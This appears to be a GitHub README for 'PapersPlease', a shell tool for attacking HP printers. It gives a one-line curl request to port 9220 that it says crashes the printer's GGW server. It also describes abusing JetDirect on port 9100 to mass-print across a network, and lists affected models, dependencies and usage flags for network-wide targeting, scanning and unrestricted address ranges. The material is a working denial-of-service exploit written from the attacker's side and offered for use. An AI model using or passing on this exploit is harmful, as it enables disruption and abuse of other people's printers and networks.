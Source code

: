
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to perform a remote Denial of Service against an HP printer by exploiting the internal GGW server found on port 9220. The tool also comes with the ability to mass print documents from either a single printer 
or all printers on a network by abusing HPs JetDirect protocol found on port 9100.

## How It Works

While the inner workings are more complicated, the exploit in its purest form is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |
| HP OfficeJet Pro 6978 |  True  |  True  |  Version: 1.0  |

**NOTE**:<br>
While the above list provides known exploitable models, these do not need to be known to an attacker prior to exploiting.

## Supported Platforms

All x86-64 Linux distributions.

Android phones are also compatible through <a href="https://termux.com/">Termux</a>, an Android terminal application. 

## Required Software

| Package | Version | Platform |
| :---:   | :---:   | :---:    |
| Netcat-openbsd |  1.105-7ubuntu1  |  x86-64  |
| Parallel | 20161222(x86-64),20180222(Android) |  Both  |
| Busybox |  1.30.1  |  Android  |
| Iproute2 |  4.3.0  |  x86-64  |
| Curl |  7.47.0-1ubuntu2.12  |  x86-64  |
| Grep (GNU) |  2.25  |  x86-64  |
| Sed (GNU) |  4.2.2  |  x86-64  |
| Bc |  1.06.95(x86-64),1.07.1(Android)  |  Both  |

**NOTE**:<br>
Exact software versions are not required. They are only present as a reference for debugging purposes. 

## How To Use

Papers_Please is designed to be very quick and simple to use. As often times Papers_Please can be run without any flags. However, you can specify a network range with the `--network` flag. Or if not attacking an entire network, then use the `--target` flag to specify a specific host. You can optimize Papers_Please through the `--jobs`, `--proc`, and `--slots` flags. Said optimization options are also active by default with values of: 0, 1, and 252 respectively. Additionally Papers_Please will automatically scan for printers by default or when given an address range with the `--network` flag. However this functionality can be disabled with the `--no-scan` flag.

## Usage

```
./Papers_Please.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

-a, --allow-all		    All address ranges 
			    are allowed. BE CAREFUL 
			    in this mode as it
			    permits scanning of
			    ANY address without
			    restriction.

--no-scan		    Disables the automatic
			    printer discovery scan.
			    By disabling this function
			    the attacker might not
			    know how many hosts were
			    successfully brought
			    down.

--no-check		    Will skip dependency
                            checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print help
			    dialog then
			    exit.
```
